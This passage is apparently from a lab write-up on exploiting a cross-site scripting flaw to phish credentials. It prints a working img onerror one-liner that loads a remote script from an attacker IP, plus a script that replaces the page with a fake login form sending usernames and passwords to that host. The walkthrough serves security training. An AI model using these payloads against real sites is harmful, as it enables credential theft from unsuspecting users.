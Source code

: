The application uses the [`innerHTML`](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security\_considerations) method to reconstuct the table (Figure 6), which means that we can't use the `<script>` tag in order to inject and execute a `.js` file directly. However, we use the `<img>` tag.

<figure><img src="../../../../.gitbook/assets/web_xss_phising_4.png" alt=""><figcaption><p>Figure 6: Inspecting the <code>list.js</code> code.</p></figcaption></figure>

We need to find a way to execute our payload (`xssPhishingLogin.js`) via the `<img>` tag. This can be achieved by [creating a `script` element](https://www.codingbeautydev.com/blog/javascript-create-script-element?utm\_source=medium\&utm\_campaign=blog\&utm\_medium=social) within the `<img>` tag itself. Again, we will remove the unecessary parts from the code, and point it to our malicious server.

```javascript
const script = document.createElement('script');
// point the element's source to our malicious payload
script.src = 'http://192.168.45.214/xssPhishingLogin.js';
script.async = true;
document.body.appendChild(script);
```

In order to place it within our `<img>`-based XSS payload, we need to convert the above code into a one-liner by removing all the white space.

{% code overflow="wrap" %}
```javascript
<img src="/" onerror='const script = document.createElement("script");script.src = "http://192.168.45.214/xssPhishingLogin.js";script.async = true;document.body.appendChild(script);'>
```
{% endcode %}

Finally, we need to create the `xssPhishingLogin.js` file. We need to use this to essentially replace the HTML code of the List application with the HTML code of our login form. For doing this, we need to convert our `login.html` code into a one-liner and use `innerHTML` to make the swap.

{% code title="xssPhishingLogin.js" overflow="wrap" %}
```javascript
document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.45.214/login.html" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><button type="submit">Login</button></div></form>'
```
{% endcode %}
